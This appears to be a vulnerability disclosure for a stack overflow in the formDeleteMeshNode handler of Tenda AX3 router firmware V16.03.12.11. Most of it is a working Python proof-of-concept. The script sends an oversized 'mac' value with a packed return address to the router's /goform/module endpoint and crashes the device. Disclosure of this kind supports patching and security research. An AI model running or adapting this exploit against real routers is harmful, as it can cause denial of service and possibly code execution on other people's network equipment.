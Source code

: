 # Tenda AX3 Stack Overflow

**Vender** ：Tenda

**Firmware version**:V16.03.12.11

**Exploit Author**: GD@hillstone

**Vendor Homepage**: https://www.tenda.com.cn/



## POC

httpd in directory `/bin` has a stack overflow vulnerability. The vulnerability occurrs in the `formDeleteMeshNode` function, which can be accessed via the URL `deleteMesh`

![1](./1.jpg)



When we send packets, the router will be dos

```
#!/usr/bin/env python
# -*- coding: UTF-8 -*-


import sys
import time
import string
import socket
from random import Random
import urllib, urllib2, httplib
from pwn import *

 
class HTTP:
    HTTP = 'http'
 
    def __init__(self, host, proto=HTTP, verbose=False):
        self.host = host
        self.proto = proto
        self.verbose = verbose
        self.encode_params = True
 
    def Encode(self, data):
        
        if type(data) == dict:
            pdata = []
            for k in data.keys():
                pdata.append(k + '=' + data[k])
            data = pdata[1] + '&' + pdata[0]
        else:
            data = urllib.quote_plus(data)
        return data
 
    def Send(self, uri, headers={}, data=None, response=False,encode_params=True):
        html = ""
        if uri.startswith('/'):
            c = ''
        else:
            c = '/'
 
        url = '%s://%s' % (self.proto, self.host)
        uri = '/%s' % uri
        #if data is not None:
            #data = self.Encode(data)
        data='{"deleteMesh":{"mac":"'+'b'*(0x4e0-21+4)+p32(0x010430F0)+'"}}'
        print data
        if self.verbose:
            print url
        httpcli = httplib.HTTPConnection(self.host, 80, timeout=30)
        httpcli.request('POST',uri,data,headers=headers)
        response=httpcli.getresponse()
        print response.status
        print response.read()
 
if __name__ == '__main__':
    #Fireitup
    session='W30EV2.0:0.171.1:d5a266'
    ip = '192.168.0.1'  
    # 构造http数据包
    s='1'
    pdata = {

        'aaa'  :   'bbb' ,
        'ccc'  :   'dddd'
        }

    header = {
        'Cookie'        : 'bLanguage=cn; sessionid='+session,
        'Accept-Encoding': 'gzip, deflate',
        'Content-Type'  : 'application/x-www-form-urlencoded',
        'User-Agent'    : 'Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.1)'
        }
    # 发起http请求
    try:
        HTTP(ip).Send('/goform/module', data=pdata,headers=header,encode_params=False,response=True)
        print '[+] execute ok'
    except httplib.BadStatusLine:
        print "Payload deliverd."
    except Exception,e:
        print "2Payload delivery failed: %s" % str(e)


```

![poc](./poc.jpg)

![poc1](./poc1.jpg)

